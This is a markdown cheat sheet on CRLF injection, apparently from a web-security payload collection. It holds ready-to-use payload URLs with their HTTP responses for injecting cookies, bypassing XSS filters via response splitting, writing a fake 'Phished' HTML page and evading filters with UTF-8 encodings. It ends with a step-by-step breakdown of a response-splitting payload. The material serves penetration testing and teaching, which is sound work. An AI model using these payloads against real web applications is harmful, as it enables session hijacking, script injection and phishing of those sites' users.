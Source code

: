 # #**What is CRLF injection?**

_CRLF injection_ is a vulnerability that lets a malicious hacker inject carriage return (CR) and linefeed (LF) characters to change the way a web application works or to confuse its administrator. There are two main malicious uses for CRLF injections: _log poisoning_ (also called _log injection, log splitting,_ or _log forging)_ and _HTTP response splitting_.

# Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Summary

- [CRLF - Add a cookie](#crlf---add-a-cookie)
- [CRLF - Add a cookie - XSS Bypass](#crlf---add-a-cookie---xss-bypass)
- [CRLF - Write HTML](#crlf---write-html)
- [CRLF - Filter Bypass](#crlf---filter-bypass)
- [Labs](#labs)
- [References](#references)

## CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## CRLF - Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

## CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)


## Labs

* [https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)


## References

* https://www.owasp.org/index.php/CRLF_Injection
* https://vulners.com/hackerone/H1:192749

# #**What is log poisoning?**

In a log poisoning attack based on CRLF injection, a malicious hacker injects CRLF characters into web server log files to confuse both automatic log analysis systems and system administrators browsing the logs manually.

# CRLF_Injection Example

- [ ] `http://www.example.com/example.php?id=` – starting a valid request to a page with a CRLF injection vulnerability.
- [ ] `%0d%0aContent-Length:%200` – a fake HTTP response header of `Content-Length: 0`. This causes the web browser to treat this response as terminated and start parsing the next response.
- [ ] `%0d%0a%0d%0aHTTP/1.1%20200%20OK` – the injected new response begins here with a double CRLF sequence followed by `HTTP/1.1 200 OK`.
- [ ] `%0d%0aContent-Type:%20text/html` – another fake HTTP response header: `Content-Type: text/html`. This is required for the browser to treat this data as HTML content.
- [ ] `%0d%0aContent-Length:%2025` – yet another fake HTTP response header: `Content-Length: 25`. This instructs the browser to parse only the next 25 bytes and discard any remaining data as junk, causing it to ignore the legitimate HTTP content sent by the web server.
- [ ] `%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E` – a double CRLF sequence signals that the headers are over and the response body starts. The injected page content is `<script>alert(1)</script>`, which causes the user’s browser to display an alert instead of the actual _example.php_ page.